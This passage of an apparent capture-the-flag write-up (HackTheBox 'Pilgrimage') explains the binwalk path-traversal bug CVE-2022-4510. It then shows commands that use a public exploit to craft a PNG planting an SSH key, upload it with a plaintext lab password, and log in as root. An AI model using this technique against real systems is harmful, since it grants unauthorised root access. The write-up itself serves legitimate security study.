 This is version v2.3.2.

Searching for “binwalk CVE” returns a bunch of references to CVE-2022-4510:

![image-20231121135200766](/img/image-20231121135200766.png)

This version should be vulnerable.

#### Details

[This post](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/) from OneKey describes who their researcher found this issue. `binwalk` is actually a Python script, and it uses `os.path.join` to build paths. The issue is that if there are `../` in one of the items being joined, it doesn’t resolve those.

Files in a PFS filesystem can have `../` in their filename.

So while the code does an `os.path.join` and then checks to make sure that the resulting path starts with the intended directory, because the `../` doesn’t get resolved, that check will never fire and therefore is bypassed.

This gives arbitrary write as the `binwalk` process. This can be exploited by overwriting an `authorized_keys` file or `crontab` file. The author in the post shows how to write a `binwalk` plugin that will actually get picked up and executed during the scan that generates it.

#### Exploit

[This repo](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) has a working Python exploit that abuses the plugin creation method. I’ll try the `ssh` method, giving it a template file and a public key:

```

oxdf@hacky$ python walkingpath.py ssh root.png ~/keys/ed25519_gen.pub 

```

The output is a file named `binwalk_exploit.png`. I’ll upload it into the `shrunk` directory:

```

oxdf@hacky$ sshpass -p abigchonkyboi123 scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/

```

From there, I’m able to SSH in as root:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@pilgrimage.htb 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@pilgrimage:~# 

```

And get the root flag:

```

root@pilgrimage:~# cat root.txt
6108bf44************************

```